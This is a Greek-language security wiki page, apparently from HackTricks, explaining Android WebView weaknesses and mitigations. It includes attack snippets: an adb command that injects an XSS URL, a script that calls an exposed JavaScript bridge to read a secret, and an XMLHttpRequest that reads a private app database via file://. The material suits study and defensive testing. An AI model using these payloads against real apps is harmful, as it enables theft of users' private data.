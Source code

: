 # Webview Attacks

{{#include ../../banners/hacktricks-training.md}}

## Οδηγός για τις Ρυθμίσεις και την Ασφάλεια του WebView

### Επισκόπηση των Ευπαθειών του WebView

Ένας κρίσιμος τομέας της ανάπτυξης Android περιλαμβάνει τη σωστή διαχείριση των WebViews. Αυτός ο οδηγός επισημαίνει βασικές ρυθμίσεις και πρακτικές ασφάλειας για τη μείωση των κινδύνων που σχετίζονται με τη χρήση του WebView.

![WebView Example](<../../images/image (1190).png>)

### **Πρόσβαση σε Αρχεία στα WebViews**

Από προεπιλογή, τα WebViews επιτρέπουν την πρόσβαση σε αρχεία. Αυτή η λειτουργία ελέγχεται από τη μέθοδο `setAllowFileAccess()`, διαθέσιμη από το επίπεδο API 3 (Cupcake 1.5) του Android. Οι εφαρμογές με την άδεια **android.permission.READ_EXTERNAL_STORAGE** μπορούν να διαβάζουν αρχεία από εξωτερική αποθήκευση χρησιμοποιώντας ένα σχήμα URL αρχείου (`file://path/to/file`).

#### **Καταργημένες Λειτουργίες: Καθολική και Πρόσβαση σε Αρχεία Από URLs**

- **Καθολική Πρόσβαση Από URLs Αρχείων**: Αυτή η καταργημένη λειτουργία επέτρεπε διασυνοριακά αιτήματα από URLs αρχείων, θέτοντας σημαντικό κίνδυνο ασφάλειας λόγω πιθανών επιθέσεων XSS. Η προεπιλεγμένη ρύθμιση είναι απενεργοποιημένη (`false`) για εφαρμογές που στοχεύουν το Android Jelly Bean και νεότερες εκδόσεις.
- Για να ελέγξετε αυτή τη ρύθμιση, χρησιμοποιήστε `getAllowUniversalAccessFromFileURLs()`.
- Για να τροποποιήσετε αυτή τη ρύθμιση, χρησιμοποιήστε `setAllowUniversalAccessFromFileURLs(boolean)`.
- **Πρόσβαση σε Αρχεία Από URLs Αρχείων**: Αυτή η λειτουργία, επίσης καταργημένη, ελέγχει την πρόσβαση σε περιεχόμενο από άλλα URLs σχήματος αρχείου. Όπως και η καθολική πρόσβαση, η προεπιλεγμένη ρύθμιση είναι απενεργοποιημένη για αυξημένη ασφάλεια.
- Χρησιμοποιήστε `getAllowFileAccessFromFileURLs()` για να ελέγξετε και `setAllowFileAccessFromFileURLs(boolean)` για να ρυθμίσετε.

#### **Ασφαλής Φόρτωση Αρχείων**

Για να απενεργοποιήσετε την πρόσβαση στο σύστημα αρχείων ενώ εξακολουθείτε να έχετε πρόσβαση σε περιουσιακά στοιχεία και πόρους, χρησιμοποιείται η μέθοδος `setAllowFileAccess()`. Με το Android R και άνω, η προεπιλεγμένη ρύθμιση είναι `false`.

- Ελέγξτε με `getAllowFileAccess()`.
- Ενεργοποιήστε ή απενεργοποιήστε με `setAllowFileAccess(boolean)`.

#### **WebViewAssetLoader**

Η κλάση **WebViewAssetLoader** είναι η σύγχρονη προσέγγιση για τη φόρτωση τοπικών αρχείων. Χρησιμοποιεί http(s) URLs για την πρόσβαση σε τοπικά περιουσιακά στοιχεία και πόρους, ευθυγραμμισμένη με την πολιτική Same-Origin, διευκολύνοντας έτσι τη διαχείριση CORS.

### loadUrl

Αυτή είναι μια κοινή λειτουργία που χρησιμοποιείται για τη φόρτωση αυθαίρετων URLs σε ένα webview:
```java
webview.loadUrl("<url here>")
```
Φυσικά, ένας πιθανός επιτιθέμενος δεν θα πρέπει ποτέ να μπορεί να **ελέγξει το URL** που θα φορτώσει μια εφαρμογή.

### **JavaScript και Διαχείριση Σχεδίου Intent**

- **JavaScript**: Απενεργοποιημένο από προεπιλογή στα WebViews, μπορεί να ενεργοποιηθεί μέσω του `setJavaScriptEnabled()`. Συνιστάται προσοχή καθώς η ενεργοποίηση του JavaScript χωρίς κατάλληλες προστασίες μπορεί να εισάγει ευπάθειες ασφαλείας.
- **Σχέδιο Intent**: Τα WebViews μπορούν να διαχειριστούν το σχέδιο `intent`, ενδεχομένως οδηγώντας σε εκμεταλλεύσεις αν δεν διαχειριστούν προσεκτικά. Ένα παράδειγμα ευπάθειας περιλάμβανε μια εκτεθειμένη παράμετρο WebView "support_url" που θα μπορούσε να εκμεταλλευτεί για την εκτέλεση επιθέσεων cross-site scripting (XSS).

![Vulnerable WebView](<../../images/image (1191).png>)

Παράδειγμα εκμετάλλευσης χρησιμοποιώντας adb:
```bash
adb.exe shell am start -n com.tmh.vulnwebview/.SupportWebView –es support_url "https://example.com/xss.html"
```
### Javascript Bridge

Μια δυνατότητα παρέχεται από το Android που επιτρέπει στο **JavaScript** σε ένα WebView να καλεί **λειτουργίες εγγενών εφαρμογών Android**. Αυτό επιτυγχάνεται με τη χρήση της μεθόδου `addJavascriptInterface`, η οποία ενσωματώνει το JavaScript με τις εγγενείς λειτουργίες του Android, που ονομάζεται _WebView JavaScript bridge_. Συνιστάται προσοχή καθώς αυτή η μέθοδος επιτρέπει σε όλες τις σελίδες εντός του WebView να έχουν πρόσβαση στο καταχωρημένο αντικείμενο JavaScript Interface, θέτοντας σε κίνδυνο την ασφάλεια αν ευαίσθητες πληροφορίες εκτεθούν μέσω αυτών των διεπαφών.

- **Απαιτείται ακραία προσοχή** για εφαρμογές που στοχεύουν σε εκδόσεις Android κάτω από 4.2 λόγω μιας ευπάθειας που επιτρέπει την απομακρυσμένη εκτέλεση κώδικα μέσω κακόβουλου JavaScript, εκμεταλλευόμενη την αντανάκλαση.

#### Implementing a JavaScript Bridge

- **JavaScript interfaces** μπορούν να αλληλεπιδρούν με τον εγγενή κώδικα, όπως φαίνεται στα παραδείγματα όπου μια μέθοδος κλάσης εκτίθεται στο JavaScript:
```javascript
@JavascriptInterface
public String getSecret() {
return "SuperSecretPassword";
};
```
- Η γέφυρα JavaScript ενεργοποιείται προσθέτοντας μια διεπαφή στο WebView:
```javascript
webView.addJavascriptInterface(new JavascriptBridge(), "javascriptBridge")
webView.reload()
```
- Πιθανή εκμετάλλευση μέσω JavaScript, για παράδειγμα, μέσω μιας επίθεσης XSS, επιτρέπει την κλήση εκτεθειμένων Java μεθόδων:
```html
<script>
alert(javascriptBridge.getSecret())
</script>
```
- Για να μετριαστούν οι κίνδυνοι, **περιορίστε τη χρήση της γέφυρας JavaScript** στον κώδικα που αποστέλλεται με το APK και αποτρέψτε τη φόρτωση JavaScript από απομακρυσμένες πηγές. Για παλαιότερες συσκευές, ορίστε το ελάχιστο επίπεδο API σε 17.

### Εκτέλεση Κώδικα μέσω Αντανάκλασης (RCE)

- Μια τεκμηριωμένη μέθοδος επιτρέπει την επίτευξη RCE μέσω αντανάκλασης εκτελώντας ένα συγκεκριμένο payload. Ωστόσο, η αναγνώριση `@JavascriptInterface` αποτρέπει την μη εξουσιοδοτημένη πρόσβαση σε μεθόδους, περιορίζοντας την επιφάνεια επίθεσης.

### Απομακρυσμένος Εντοπισμός Σφαλμάτων

- **Απομακρυσμένος εντοπισμός σφαλμάτων** είναι δυνατός με τα **Chrome Developer Tools**, επιτρέποντας την αλληλεπίδραση και την αυθαίρετη εκτέλεση JavaScript μέσα στο περιεχόμενο του WebView.

#### Ενεργοποίηση Απομακρυσμένου Εντοπισμού Σφαλμάτων

- Ο απομακρυσμένος εντοπισμός σφαλμάτων μπορεί να ενεργοποιηθεί για όλα τα WebViews εντός μιας εφαρμογής με:
```java
if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.KITKAT) {
WebView.setWebContentsDebuggingEnabled(true);
}
```
- Για να ενεργοποιήσετε την αποσφαλμάτωση με βάση την κατάσταση αποσφαλμάτωσης της εφαρμογής:
```java
if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.KITKAT) {
if (0 != (getApplicationInfo().flags & ApplicationInfo.FLAG_DEBUGGABLE))
{ WebView.setWebContentsDebuggingEnabled(true); }
}
```
## Εξαγωγή αυθαίρετων αρχείων

- Δείχνει την εξαγωγή αυθαίρετων αρχείων χρησιμοποιώντας ένα XMLHttpRequest:
```javascript
var xhr = new XMLHttpRequest()
xhr.onreadystatechange = function () {
if (xhr.readyState == XMLHttpRequest.DONE) {
alert(xhr.responseText)
}
}
xhr.open(
"GET",
"file:///data/data/com.authenticationfailure.wheresmybrowser/databases/super_secret.db",
true
)
xhr.send(null)
```
## Αναφορές

- [https://labs.integrity.pt/articles/review-android-webviews-fileaccess-attack-vectors/index.html](https://labs.integrity.pt/articles/review-android-webviews-fileaccess-attack-vectors/index.html)
- [https://github.com/authenticationfailure/WheresMyBrowser.Android](https://github.com/authenticationfailure/WheresMyBrowser.Android)
- [https://developer.android.com/reference/android/webkit/WebView](https://developer.android.com/reference/android/webkit/WebView)
- [https://medium.com/@justmobilesec/deep-links-webviews-exploitations-part-ii-5c0b118ec6f1](https://medium.com/@justmobilesec/deep-links-webviews-exploitations-part-ii-5c0b118ec6f1)
- [https://www.justmobilesec.com/en/blog/deep-links-webviews-exploitations-part-I](https://www.justmobilesec.com/en/blog/deep-links-webviews-exploitations-part-I)

{{#include ../../banners/hacktricks-training.md}}
